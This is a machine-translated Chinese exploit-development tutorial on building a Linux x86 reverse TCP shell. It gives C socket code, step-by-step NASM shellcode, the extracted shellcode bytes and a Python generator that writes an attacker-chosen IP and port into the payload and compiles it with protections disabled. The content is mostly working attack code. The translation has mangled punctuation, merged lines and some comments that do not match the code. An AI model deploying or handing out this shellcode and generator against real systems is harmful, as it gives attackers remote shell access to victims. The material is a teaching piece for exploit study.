




# [ExpDev]反向 TCP 外壳

> 原文：<https://infosecwriteups.com/expdev-reverse-tcp-shell-227e94d1d6ee?source=collection_archive---------0----------------------->

# **什么是反壳？**

与[绑定外壳](https://medium.com/bugbountywriteup/expdev-bind-tcp-shellcode-cebb5657a997)相反，反向外壳通过在受害者系统上执行的有效负载连接回攻击者的计算机。当目标组织拥有强大的入站连接防火墙时，这种类型的 shell 更有用。反向外壳可以利用常见的出站端口，如端口 80、443、53 等。



# **套接字编程**

类似于绑定 TCP Shell 练习，让我们用高级编程语言创建一个反向 TCP Shell。我们将再次使用“c ”:

```
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <unistd.h>int main()
{
    int sockfd;
    int port = 9001; **// Address struct**
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port);
    addr.sin_addr.s_addr = inet_addr(“127.0.0.1”); **// 1) Socket Syscall (sys_socket 1)**
    sockfd = socket(AF_INET, SOCK_STREAM, 0); **// 2) Connect Syscall**
    connect(sockfd, (struct sockaddr *) &addr, sizeof(addr)); ** // 3) Dup2 Syscall**
    dup2(sockfd, 0); //stdin
    dup2(sockfd, 1); //stdout
    dup2(sockfd, 2); //stderr **// 4) Execve Syscall**
    execve(“/bin/sh”, NULL, NULL);
    return 0;
}
```

我们来编译一下:

```
gcc reverse-tcp-shell.c -o reverse-tcp-shell -w
```

编译后的反向 shell 二进制可以像预期的那样成功连接回`127.0.0.1:9001`。



# **外壳代码**

对于反向 TCP Shell，我们需要遵循`syscalls`:

1.  **Socket** :初始化 Socket 连接
2.  **连接**:创建到给定地址的连接呼叫
3.  **Dup2** :管理文件描述符的`stdin`、`stdout`和`stderr`。这对于输入和输出重定向是必要的。
4.  **执行**:执行一个命令(`/bin/sh`生成一个外壳)

## **系统调用+函数调用**

首先，我们需要收集`socketcall()`和其他`syscalls`的参数。

> **注意** : socketcall()是 socket 系统调用的一个公共内核入口点。

通过查询`/usr/include/i386-linux-gnu/asm/unistd_32.h`，我们可以为`syscalls`收集以下参数:

```
#define __NR_socketcall 102 → Hex: 0x66
#define __NR_connect 362    → Hex: 0x16a
#define __NR_dup2 63        → Hex: 0x3f
#define __NR_execve 11      → Hex: 0xb
```

此外，通过查看`/usr/include/linux/net.h`，我们还可以获得函数调用的参数:

```
# cat /usr/include/linux/net.h | grep SYS#define SYS_SOCKET 1 /* sys_socket(2) */
#define SYS_BIND 2 /* sys_bind(2) */
#define SYS_CONNECT 3 /* sys_connect(2) */
#define SYS_LISTEN 4 /* sys_listen(2) */
#define SYS_ACCEPT 5 /* sys_accept(2) */
#define SYS_GETSOCKNAME 6 /* sys_getsockname(2) */
#define SYS_GETPEERNAME 7 /* sys_getpeername(2) */
#define SYS_SOCKETPAIR 8 /* sys_socketpair(2) */
#define SYS_SEND 9 /* sys_send(2) */
#define SYS_RECV 10 /* sys_recv(2) */
#define SYS_SENDTO 11 /* sys_sendto(2) */
#define SYS_RECVFROM 12 /* sys_recvfrom(2) */
#define SYS_SHUTDOWN 13 /* sys_shutdown(2) */
#define SYS_SETSOCKOPT 14 /* sys_setsockopt(2) */
#define SYS_GETSOCKOPT 15 /* sys_getsockopt(2) */
#define SYS_SENDMSG 16 /* sys_sendmsg(2) */
#define SYS_RECVMSG 17 /* sys_recvmsg(2) */
#define SYS_ACCEPT4 18 /* sys_accept4(2) */
#define SYS_RECVMMSG 19 /* sys_recvmmsg(2) */
#define SYS_SENDMMSG 20 /* sys_sendmmsg(2) */
```

## **初始化**

首先，让我们将我们要使用的一些寄存器清零:

```
global _startsection     .text_start:xor eax, eax  ; Zero out EAX
xor ebx, ebx  ; Zero out EBX
xor ecx, ecx  ; Zero out ECX
xor edx, edx  ; Zero out EDX
```

## **1)插座()**

让我们创建`socket()`外壳代码:

```
**; 1) Socket Creation**mov al, 0x66  ; #define __NR_socketcall 102 → Hex: 0x66
mov bl, 0x1   ; #define SYS_SOCKET 1
push edx      ; int protocol = 0
push ebx      ; int SOCK_STREAM = 1
push 0x2      ; int AF_INET = 2
mov ecx, esp  ; Move stack pointer to ECX
int 0x80      ; Execute SYS_SOCKET
mov edi, eax  ; Save the sockfd to EDI
```

## **地址结构**

让我们创建地址`struct`外壳代码:

```
**; struct sockaddr_in addr;
; addr.sin_family = AF_INET;
; addr.sin_port = htons(port);
; addr.sin_addr.s_addr = inet_addr(“127.0.0.1”);**push edx       ; NULL Padding
push edx       ; NULL Padding
xor eax, eax   ; Zero out EAX**; The return address 127.0.0.1 contains null-bytes which would break our shellcode. We can circumvent this by subtracting 1.1.1.1 from 128.1.1.2 to get the address of 127.0.0.1 eventually**mov eax, 0x02010180  ; 2.1.1.128 (*Little-Endian)
sub eax, 0x01010101  ; Subtract 1.1.1.1
push eax             ; sin_addr = 127.0.0.1
push word 0xb315     ; port = 5555 (*Little-Endian)
push word 0x2        ; int AF_INET = 2
mov esi, esp         ; Move stack pointer to ESI
```

## **2)连接()**

让我们创建地址`connect()`外壳代码:

```
**; 2) Connect**xor eax, eax   ; Zero out EAX
xor ebx, ebx   ; Zero out EBX
mov al, 0x66   ; socketcall = 102 → Hex: 0x66
mov bl, 0x3    ; #define SYS_CONNECT 3
push 0x10      ; sizeof(addr) = 10
push esi       ; ESI = Server Address struct
push edi       ; EDI = sockfd
mov ecx, esp   ; Move stack pointer to ECX
int 0x80       ; Execute SYS_CONNECT
```

## **3) Dup2()**

让我们创建`dup2()`外壳代码:

```
**; 3) Dup2 — Input and Output Redirection**xor ecx, ecx   ; Zero out
mov cl, 0x3    ; Set the counterloop:
xor eax, eax   ; Zero out EAX
mov al, 0x3f   ; #define __NR_dup2 63 → Hex: 0x3f
mov ebx, edi   ; New sockfd
dec cl         ; Decrementing the counter by 1
int 0x80jnz loop       ; Jump back to the beginning of the loop until CL is set to zero flag
```

## **4) Execve()**

让我们创建`execve()`外壳代码:

```
**; 4) Execve**push edx          ; NULL
push 0x68732f6e   ; “hs/n” ← //bin/sh
push 0x69622f2f   ; “ib//”
mov ebx, esp      ; Move stack pointer to EBX
push edx          ; NULL terminator
push ebx
mov ecx, esp      ; Move stack pointer to ECX
mov al, 0xb       ; #define __NR_execve 11 → Hex: 0xb
int 0x80          ; Execute SYS_EXECVE
```

# **最终外壳代码(reverse-tcp-shell.nasm)**

让我们把所有东西放在一起，测试外壳代码。

```
global _startsection     .text_start:xor eax, eax  ; Zero out EAX
xor ebx, ebx  ; Zero out EBX
xor ecx, ecx  ; Zero out ECX
xor edx, edx  ; Zero out EDX**; 1) Socket Creation**mov al, 0x66  ; #define __NR_socketcall 102 → Hex: 0x66
mov bl, 0x1   ; #define SYS_SOCKET 1
push edx      ; int protocol = 0
push ebx      ; int SOCK_STREAM = 1
push 0x2      ; int AF_INET = 2
mov ecx, esp  ; Move stack pointer to ECX
int 0x80      ; Execute SYS_SOCKET
mov edi, eax  ; Save the sockfd to EDI**; struct sockaddr_in addr;
; addr.sin_family = AF_INET;
; addr.sin_port = htons(port);
; addr.sin_addr.s_addr = inet_addr(“127.0.0.1”);**push edx       ; NULL Padding
push edx       ; NULL Padding
xor eax, eax   ; Zero out EAX**; The return address 127.0.0.1 contains null-bytes which would break our shellcode. We can circumvent this by subtracting 1.1.1.1 from 128.1.1.2 to get the address of 127.0.0.1 eventually**mov eax, 0x02010180  ; 2.1.1.128 (*Little-Endian)
sub eax, 0x01010101  ; Subtract 1.1.1.1
push eax             ; sin_addr = 127.0.0.1
push word 0xb315     ; port = 5555 (*Little-Endian)
push word 0x2        ; int AF_INET = 2
mov esi, esp         ; Move stack pointer to ESI**; 2) Connect**xor eax, eax   ; Zero out EAX
xor ebx, ebx   ; Zero out EBX
mov al, 0x66   ; socketcall = 102 → Hex: 0x66
mov bl, 0x3    ; #define SYS_CONNECT 3
push 0x10      ; sizeof(addr) = 10
push esi       ; ESI = Server Address struct
push edi       ; EDI = sockfd
mov ecx, esp   ; Move stack pointer to ECX
int 0x80       ; Execute SYS_BIND**; 3) Dup2 — Input and Output Redirection**xor ecx, ecx   ; Zero out
mov cl, 0x3    ; Set the counterloop:
xor eax, eax   ; Zero out EAX
mov al, 0x3f   ; #define __NR_dup2 63 → Hex: 0x3f
mov ebx, edi   ; New sockfd
dec cl         ; Decrementing the counter by 1
int 0x80jnz loop       ; Jump back to the beginning of the loop until CL is set to zero flag**; 4) Execve**push edx          ; NULL
push 0x68732f6e   ; “hs/n” ← //bin/sh
push 0x69622f2f   ; “ib//”
mov ebx, esp      ; Move stack pointer to EBX
push edx          ; NULL terminator
push ebx
mov ecx, esp      ; Move stack pointer to ECX
mov al, 0xb       ; #define __NR_execve 11 → Hex: 0xb
int 0x80          ; Execute SYS_EXECVE
```

# **编译**

我创建了一个简单的编译器[编译器 X86.py](https://github.com/bigb0sss/ASM_Learning/blob/master/compilerX86.py) 。使用它，我们可以:

*   将`bind-tcp-shell.nasm`编译成二进制文件
*   从二进制文件中提取外壳代码来创建`shellcode.c`
*   使用`gcc`将`shellcode.c`编译成二进制文件

```
# python compilerX86.py -f reverse-tcp-shell[+] Assemble: reverse-tcp-shell.nasm
[+] Linking: reverse-tcp-shell.o
[+] Shellcode: “\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\x52\x31\xc0\xb8\x80\x01\x01\x02\x2d\x01\x01\x01\x01\x50\x66\x68\x15\xb3\x66\x6a\x02\x89\xe6\x31\xc0\x31\xdb\xb0\x66\xb3\x03\x6a\x10\x56\x57\x89\xe1\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80”
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```



# **最终触摸**

最后，我创建了以下 python 脚本来更改用户输入的 IP 地址和端口号，并自动创建和编译`C`二进制文件。

```
**#** [**reverse-tcp-shell.py**](https://github.com/bigb0sss/SLAE32/blob/master/Assignment-2/reverse-tcp-shell.py)import sys
import argparse
import subprocess
import string
import socket“”” Arguments “””
parser = argparse.ArgumentParser(description = ‘[+] Reverse TCP Shell Generator’)
parser.add_argument(‘-p’, ‘ — port’, help=’\tPort’)
parser.add_argument(‘-ip’, ‘ — ipAddr’, help=’\tIP Address’)
args = parser.parse_args()def error():
    parser.print_help()
    exit(1)def exploit(ip, port):
    # Reverse TCP Shell
    shellcode1 = “\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2”
    shellcode1+= “\\xb0\\x66\\xb3\\x01\\x52\\x53\\x6a\\x02”
    shellcode1+= “\\x89\\xe1\\xcd\\x80\\x89\\xc7\\x52\\x52”
    shellcode1+= “\\x31\\xc0\\xb8” # “\x80\x01\x01\x02” = IP 127.0.0.1 + 1.1.1.1
    print “[INFO] Reverse Shell IP: “ + ip
    ip = ip.split(“.”)

    # Adding 1 to each element in the ip array    
    ip[:]=[int(i)+1 for i in ip] 

    # First Octet of the IP Address
    octet1 = hex(ip[0])
    octet1 = octet1[2:]
    if len(octet1) == 2:
        octet1 = “\\x” + octet1
    else:
        octet1 = “\\x” + “%02x” % int(octet1) # Second Octet of the IP Address
    octet2 = hex(ip[1])
    octet2 = octet2[2:]
    if len(octet2) == 2:
        octet2 = “\\x” + octet2
    else:
        octet2 = “\\x” + “%02x” % int(octet2) # Thrid Octet of the IP Address
    octet3 = hex(ip[2])
    octet3 = octet3[2:]
    if len(octet3) == 2:
        octet3 = “\\x” + octet3
    else:
        octet3 = “\\x” + “%02x” % int(octet3) # Forth Octet of the IP Address
    octet4 = hex(ip[3])
    octet4 = octet4[2:]
    if len(octet4) == 2:
        octet4 = “\\x” + octet4
    else:
        octet4 = “\\x” + “%02x” % int(octet4) ipHex = octet1 + octet2 + octet3 + octet4

    # Subtracting 1.1.1.1 = Potential Nullbyte avoidance mechanism
    shellcode2 = “\\x2d\\x01\\x01\\x01\\x01\\x50\\x66\\x68”    # “\x15\xb3” = port 5555
    print “[INFO] Reverse Shell Port: “ + port
    port = hex(socket.htons(int(port)))
    a = port[2:4]
    b = port[4:] if b == ‘’:
        b = ‘0’
    port = ‘\\x{0}\\x{1}’.format(b, a) shellcode3 = “\\x66\\x6a\\x02\\x89\\xe6\\x31\\xc0\\x31”
    shellcode3+= “\\xdb\\xb0\\x66\\xb3\\x03\\x6a\\x10\\x56”
    shellcode3+= “\\x57\\x89\\xe1\\xcd\\x80\\x31\\xc9\\xb1”
    shellcode3+= “\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xfe”
    shellcode3+= “\\xc9\\xcd\\x80\\x75\\xf4\\x52\\x68\\x6e”
    shellcode3+= “\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69”
    shellcode3+= “\\x89\\xe3\\x52\\x53\\x89\\xe1\\xb0\\x0b”
    shellcode3+= “\\xcd\\x80”

    payload = shellcode1 + ipHex + shellcode2 + port + shellcode3 # Adding shellcode to shellcode.c
    outShellcode = ‘’
    outShellcode+= ‘#include<stdio.h>\n’
    outShellcode+= ‘#include<string.h>\n’
    outShellcode+= ‘\n’
    outShellcode+= ‘unsigned char code[] = \ \n’
    outShellcode+= ‘“{0}”;’.format(payload)
    outShellcode+= ‘\n’
    outShellcode+= ‘main()\n’
    outShellcode+= ‘{\n’
    outShellcode+= ‘printf(“Shellcode Length: %d”, strlen(code));\n’
    outShellcode+= ‘\tint (*ret)() = (int(*)())code;\n’
    outShellcode+= ‘\tret();\n’
    outShellcode+= ‘}\n’ # Creating shellcode.c
    filename = “exploit.c”
    outfile = open(filename, ‘w’)
    outfile.write(outShellcode)
    outfile.close() print “[INFO] Creating File: exploit.c”
    # Compiling shellcode.c
    subprocess.call([“gcc”, “-fno-stack-protector”, “-z”, “execstack”, filename, “-o”, “exploit”, “-w”]) print “[INFO] Compiled Executable: exploit”if __name__ == “__main__”:
    inputIP = args.ipAddr if args.ipAddr != None else error()
    inputPort = args.port if args.port != None else error()
    exploit(inputIP, inputPort)
```



感谢阅读！